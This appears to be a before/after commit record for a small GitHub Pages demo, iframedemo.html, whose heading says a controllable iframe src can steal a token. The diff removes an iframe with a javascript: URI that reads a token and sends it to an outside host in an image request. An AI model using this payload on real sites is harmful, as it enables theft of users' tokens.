

Before and after one commit to 13913047063/13913047063.github.io, a plain HTML site: page iframedemo.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update iframedemo.html

```diff
--- a/iframedemo.html
+++ b/iframedemo.html
@@ -10,6 +10,5 @@
   <body>
 	<p>iframe src可控窃取token</p></br>
     <iframe id="fid" src="https://13913047063.github.io/index.html"></iframe><br>
-	<iframe id="fid" src="javascript:const myImage = document.createElement('img');myImage.setAttribute('src','http://www.baidu.com/?data='+testObjName.getToken());document.body.appendChild(myImage);"></iframe>
-  </body>
+</body>
 </html>
```
